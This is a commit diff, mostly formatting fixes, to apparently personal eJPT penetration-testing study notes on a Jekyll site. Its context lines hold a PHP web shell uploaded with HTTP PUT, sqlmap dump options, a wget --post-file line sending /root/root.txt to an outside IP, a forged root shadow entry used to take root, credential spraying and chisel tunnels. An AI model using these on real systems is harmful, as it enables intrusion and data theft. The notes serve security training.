

Before and after one commit to Johnermac/Johnermac.github.io, a Jekyll site: the page built from _posts/notes/ejpt/2023-11-18-ejpt.md, in a window 1280 px wide and 900 px high, scrolled down 7625 px. Shown: the whole window, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
ejpt added

````diff
--- a/_posts/notes/ejpt/2023-11-18-ejpt.md
+++ b/_posts/notes/ejpt/2023-11-18-ejpt.md
@@ -105,6 +105,7 @@
 openssl s_client -connect <target>:443
 HEAD / HTTP/1.0
 ```
+
 ```bash
 httprint -P0 -h <target> -s <signature file>
 -P0 - to avoid pinging the host
@@ -114,10 +115,11 @@
 HTTP VERBS
 PUT
 
-to count in bytes how long your payload is.
+to count in bytes how long your payload is:
 ```bash
 wc -m payload.php
 ```
+
 ```bash
 nc <target site> 80
 PUT /payload.php hTTP/1.0
@@ -127,11 +129,11 @@
 
 ```php
 <?php phpinfo(); ?>
-
 ```
 
 PHP shell code: to use with PUT method:
 ```php
+
 <?php
 if (isset($_GET['cmd']))
 {
@@ -144,7 +146,10 @@
 ?>
 ```
 
-After uploading this shell, we can go to the browser and use "?cmd=<command>" we want.
+After uploading this shell, we can go to the browser and use:
+```bash
+"?cmd=<command>"
+```
 
 ## NC
 
@@ -253,22 +258,22 @@
 sqlmap -u 'url' --data <post string> -p parameter [options] # u can get the post string with burp
 ```
 
-```
+```bash
 -b - banner
 --tables
 --current-db <name>
 --columns
 --dump
--v3 --fresh-queries #to see what payload the sqlmap used
---dbs #to see the databases availables
---users #to see the users
--D #set the database of your choice
--T #set the tables of your choice
--C #set column of your choice
--r #request, we can get from burp
---technique=U #UNION attack
---technique=B #boolean-based attacks
---flush-session #if you need to clear the logs for a rerun test or smt like that #logs > /usr/share/sqlmap/output/
+-v3 --fresh-queries # to see what payload the sqlmap used
+--dbs # to see the databases availables
+--users # to see the users
+-D # set the database of your choice
+-T # set the tables of your choice
+-C # set column of your choice
+-r # request, we can get from burp
+--technique=U # UNION attack
+--technique=B # boolean-based attacks
+--flush-session # if you need to clear the logs for a rerun test or smt like that #logs > /usr/share/sqlmap/output/
 ```
 
 # System Atacks
@@ -644,7 +649,7 @@
 sudo wget --post-file /root/root.txt http://10.10.14.5:443/
 ```
 
-I sent the flag through http.server
+> I sent the flag through **http.server**
 
 2:
 ## Create shadow file
@@ -655,12 +660,12 @@
 su -
 ```
 
-I did a file a shadow file and overwrote the actual shadow of the machine
+I did a file a shadow file and overwrote the actual shadow of the machine:
 ```bash
 root:$1$0xdf$fKKvgEPPSu1HMdNI3w5i50:18195:0:99999:7:::
 ```
 
-so when the command 'su -' is written, I get root access.
+> so when the command **su -** is written, I get root access.
 
 ```bash
 root@CorpOne:~# id
@@ -761,16 +766,16 @@
 poetry run CrackMapExec ssh <url> -u <users file> -p <pwd file>
 ```
 
-- zcap can read gzip files like a cat
+zcap can read gzip files like a cat:
 ```bash
 zcap access.log.*.gz | grep -iv 'a\|b\|c'
 ```
 
 ## AUREPORT
 
-	Can do a report upon the logs files.
-	example:
+Can do a report upon the logs files.
 
+example:
 ```bash
 aureport --tty # to show terminals access
 ```
@@ -781,7 +786,7 @@
 
 # Pivot
 
-In kali:
+**In kali**:
 
 create a directory: /www
 
@@ -790,7 +795,7 @@
 nc -lvnp 8000 < {file we want to send}
 ```
 
-In target:
+**In target**:
 
 ```bash
 curl <ip>:<port>/<file>
@@ -814,17 +819,17 @@
 
 ## PIVOT with CHISEL
 
-IN Kali:
+**IN Kali**:
 ```bash
 chisel server -p 8000 -reverse -v
 ```
 
-	after the handshake with the chisel server:
+after the handshake with the chisel server:
 ```bash
 		curl localhost:8001
 ```
 
-In Target:
+**In Target**:
 
 ```bash
 chisel client <kali ip>:8000 R:8001:<target ip>:80
@@ -840,19 +845,19 @@
 ```
 
 
-	We can visualize the open port with netstat:
+We can visualize the open port with netstat:
 ```bash
 netstat -alnp | grep 8001
 ```
 
 ## LOCAL PIVOT
 
-In Kali:
+**In Kali**:
 ```bash
 chisel server -p 8000
 ```
 
-In target:
+**In target**:
 ```bash
 chisel client <kali ip>:<port> 9001:127.0.0.1:8001
 # this open the 9001 of the target and tunnel with our 8001 port
@@ -896,19 +901,20 @@
 
 ## REVERSE SOCKS
 
-In Kali:
+**In Kali**:
 ```bash
 chisel server -p 8000 -reverse -v
 ```
 
-In Target:
+**In Target**:
 ```bash
 chisel client <kali ip>:8000 R:8001:127.0.0.1:1337
 chisel server -p 1337 --socks5
 ```
+
 > Will redirect everything from our port 8001 to port 1337 of the target
 
-In Kali again:
+**In Kali again**:
 ```bash
 chisel client 127.0.0.1:8001 socks
 ```
````
Also changed, not shown: other parts of _posts/notes/ejpt/2023-11-18-ejpt.md (+1 -1 lines).
